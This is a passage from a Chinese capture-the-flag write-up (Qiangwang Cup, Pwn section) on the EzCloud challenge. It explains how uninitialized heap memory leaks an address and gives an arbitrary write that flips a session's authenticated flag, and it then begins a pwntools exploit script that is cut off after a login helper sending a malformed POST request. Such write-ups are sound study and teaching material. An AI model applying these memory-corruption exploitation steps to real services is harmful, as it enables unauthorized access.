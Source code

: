 > 原文链接: https://www.anquanke.com//post/id/245271 


# 第五届强网杯线上赛冠军队 WriteUp - Pwn 篇


                                阅读量   
                                **272740**
                            
                        |
                        
                                                                                    



[![](https://p2.ssl.qhimg.com/t0127fdfdf5b5351cd1.jpg)](https://p2.ssl.qhimg.com/t0127fdfdf5b5351cd1.jpg)

**EzCloud**

题目注册了一些路由，能未登录访问的除了/login，/logout外只有/notepad，而漏洞就发生在/notepad里唯一一处使用malloc的地方。程序中初始化字符串（地址为0x9292，这里命名为create_string）的函数存在两个为初始化，一是若传入的value为空时，函数不做任何工作直接退出，二是create_string中的malloc申请内存后没有初始化。

使用create_string中的第二个未初始化可以leak出heap地址，虽然低位会被覆写至少一位，但根据linux内存按页对齐的性质仍然可以得到完整的heap地址。使用create_string的第一个未初始化配合/notepad中的未初始化，可以得到一个没有初始化的string结构体，通过堆布局控制该结构体，然后使用edit note的功能可以实现任意地址写，配合之前leak出的heap地址，写session的第一个_DWORD（即authed字段）即可以调用/flag获得flag

#!/usr/bin/env python2

from pwn import *

from time import sleep

from urllib import quote

context.bits = 64

context.log_level = “debug”

​

def login(login_id, body):

    payload =  “POST /login HTTP/1.1\r\n”

    payload += “Content-Length: -1\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “\r\n”

    payload += body

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

    # sleep(1)

​
